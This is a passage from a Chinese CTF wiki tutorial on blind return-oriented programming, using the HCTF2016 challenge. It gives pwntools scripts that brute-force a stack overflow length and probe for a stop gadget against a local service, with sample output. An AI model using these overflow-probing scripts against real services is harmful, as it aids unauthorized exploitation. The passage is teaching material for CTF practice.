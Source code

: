 ### 例子

这里我们以 [HCTF2016的出题人失踪了](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/brop/hctf2016-brop) 为例。基本思路如下

#### 确定栈溢出长度

```python
def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('WelCome my friend,Do you know password?\n')
            sh.send(i * 'a')
            output = sh.recv()
            sh.close()
            if not output.startswith('No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

根据上面，我们可以确定，栈溢出的长度为72。同时，根据回显信息可以发现程序并没有开启canary保护，否则，就会有相应的报错内容。所以我们不需要执行stack reading。

#### 寻找 stop gadgets

寻找过程如下

```python
def get_stop_addr(length):
    addr = 0x400000
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            print 'one success addr: 0x%x' % (addr)
            return addr
        except Exception:
            addr += 1
            sh.close()
```

这里我们直接尝试64位程序没有开启PIE的情况，因为一般是这个样子的，，，如果开启了，，那就按照开启了的方法做，，结果发现了不少，，我选择了一个貌似返回到源程序中的地址

```text
one success stop gadget addr: 0x4006b6
```
